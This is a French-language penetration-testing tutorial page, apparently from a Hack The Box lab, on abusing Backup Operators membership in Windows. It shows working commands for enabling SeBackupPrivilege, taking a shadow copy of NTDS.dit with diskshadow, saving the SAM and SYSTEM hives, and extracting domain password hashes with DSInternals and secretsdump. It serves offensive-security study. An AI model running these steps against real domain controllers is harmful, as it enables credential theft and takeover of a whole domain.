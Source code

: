 # Backup Operators

### <mark style="color:red;">Backup Operators</mark>

{% hint style="warning" %}
Utilise `whoami /groups` après avoir pris la main sur une machine pour voir à quels groupes ton compte appartient.

* **Groupe Backup Operators :**\
  Si tu es membre de ce groupe, tu obtiens deux privilèges importants :
  * [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges)&#x20;
  * `SeRestorePrivilege`
* **Ce que permet SeBackupPrivilege :**
  * Tu peux **parcourir n’importe quel dossier**, même sans permission explicite.
  * Tu peux **lister et copier des fichiers**, **même si tu n'es pas dans les ACLs** du dossier.
* **Attention :**
  * Tu **ne peux pas utiliser la commande `copy` classique** pour cela.
  * Il faut **copier les données via un script ou un programme** qui utilise un flag spécial : [FILE\_FLAG\_BACKUP\_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea).
* **Exploitation (PoC) :**
  * Tu peux utiliser **un script PowerShell ou C#** pour profiter de ce privilège.[PoC](https://github.com/giuliano108/SeBackupPrivilege)
  * Le script importe des bibliothèques pour copier des fichiers comme si tu faisais une sauvegarde système.
{% endhint %}

<mark style="color:green;">**Importing Libraries**</mark>

```powershell-session
PS C:\htb> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\htb> Import-Module .\SeBackupPrivilegeCmdLets.dll
```

<mark style="color:green;">**Verifying SeBackupPrivilege is Enabled**</mark>

```powershell-session
PS C:\htb> whoami /priv
```

```powershell-session
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is disabled
```

<mark style="color:green;">**Enabling SeBackupPrivilege**</mark>

If the privilege is disabled, we can enable it with `Set-SeBackupPrivilege`.

```powershell-session
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

```powershell-session
PS C:\htb> whoami /priv
```

<mark style="color:green;">**Copying a Protected File**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes
```
{% endcode %}

***

<mark style="color:green;">**Attacking a Domain Controller - Copying NTDS.dit**</mark>

{% hint style="warning" %}
**Groupe spécial** : Certains groupes (comme Backup Operators ou Administrateurs) peuvent se connecter **localement** sur un **contrôleur de domaine**.

* **Fichier cible : NTDS.dit**
  * C’est la **base de données Active Directory**.
  * Elle contient les **hashs NTLM de tous les utilisateurs et ordinateurs** du domaine.
  * Donc, elle est une **cible très sensible et précieuse**.
* **Problème** :
  * Le fichier `NTDS.dit` est **verrouillé par le système** (utilisé en permanence).
  * Il est **inaccessible pour un utilisateur non privilégié**.
* **Solution : Shadow Copy**
  * On utilise l’outil **`diskshadow`** de Windows pour créer une **copie instantanée du disque C: (shadow copy)**.
  * Cette copie est montée en tant que **nouveau lecteur (ex. E:)**.
  * Le fichier `NTDS.dit` **dans la shadow copy n’est pas verrouillé** → on peut donc le copier et l'exfiltrer.
{% endhint %}

```powershell
PS C:\htb> diskshadow.exe

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\
```

<mark style="color:green;">**Copying NTDS.dit Locally**</mark>

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

<mark style="color:green;">**Backing up SAM and SYSTEM Registry Hives**</mark>

```cmd-session
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV


C:\htb> reg save HKLM\SAM SAM.SAV
```

<mark style="color:green;">**Extracting Credentials from NTDS.dit**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
{% endcode %}

<mark style="color:green;">**Extracting Hashes Using SecretsDump**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot_1@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
{% endcode %}

***

### <mark style="color:red;">Robocopy</mark>

{% hint style="warning" %}
<mark style="color:green;">**Robocopy (Robust File Copy)**</mark> est un **outil en ligne de commande** de Windows conçu pour **copier des répertoires entiers** de manière fiable.

* Il peut être utilisé en **mode sauvegarde**, ce qui permet de copier des fichiers même sans autorisations classiques (si l’on a le droit SeBackupPrivilege).
* Contrairement à la commande `copy`, **robocopy est plus puissant** :
  * **Multi-threading** (copie plusieurs fichiers en parallèle)
  * **Reprise automatique** si la copie échoue
  * **Reprise là où ça s'est arrêté** après une interruption
  * **Comparaison de fichiers** pour ne copier que ceux qui ont changé
* Il peut aussi **synchroniser des répertoires** :
  * Supprime les fichiers de destination qui n’existent plus dans la source
  * Gagne du temps en **ne recopiant pas les fichiers identiques**
{% endhint %}

```cmd-session
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```
